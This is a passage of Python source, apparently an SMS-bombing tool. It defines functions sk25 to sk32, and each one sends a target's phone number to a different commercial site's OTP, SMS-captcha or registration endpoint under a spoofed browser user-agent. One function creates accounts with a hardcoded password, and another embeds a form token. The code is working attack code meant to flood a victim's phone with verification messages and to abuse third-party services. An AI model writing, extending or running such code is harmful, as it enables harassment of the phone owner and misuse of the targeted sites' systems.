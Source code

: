     def sk25(phone):

        post("https://api2.1112.com/api/v1/otp/create", json={"phonenumber": f"0{phone}", "language": "th"}, headers={

             "user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})

    def sk26(phone):

        post("https://unacademy.com/api/v3/user/user_check/", json={"phone": f"0{phone}", "country_code": "TH"}, headers={

             "user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})

    def sk27(phone):

        post(

            f"http://m.vcanbuy.com/gateway/msg/send_regist_sms_captcha?mobile=66-0{phone}")

    def sk28(phone):

        post("https://ocs-prod-api.makroclick.com/next-ocs-member/user/register", json={"username": f"0{phone}", "password": "6302814184624az", "name": "0903281894", "provinceCode": "28", "districtCode": "393", "subdistrictCode": "3494", "zipcode": "40260",

             "siebelCustomerTypeId": "710", "acceptTermAndCondition": "true", "hasSeenConsent": "false", "locale": "th_TH"}, headers={"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})

    def sk29(phone):

        post("https://shoponline.ondemand.in.th/OtpVerification/VerifyOTP/SendOtp", data={"phone": f"0{phone}"}, headers={

             "user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})

    def sk30(phone):

        post("https://www.berlnw.com/reservelogin", data={"p_myreserve": f"0{phone}"}, headers={

             "user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})

    def sk31(phone):

        post("https://www.kickoff28.com/action.php?mode=PreRegister", data={"tel": f"0{phone}"}, headers={

             "user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})

    def sk32(phone):

        post("https://1ufabet.com/_ajax_/request-otp", data={"request_otp[phoneNumber]": f"0{phone}", "request_otp[termAndCondition]": "1", "request_otp[_token]": "XBNcvQIzJK1pjh_2T0BBzLiDa6vSivktDN317mbw3ws"}, headers={

             "user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36 Edg/95.0.1020.38"})

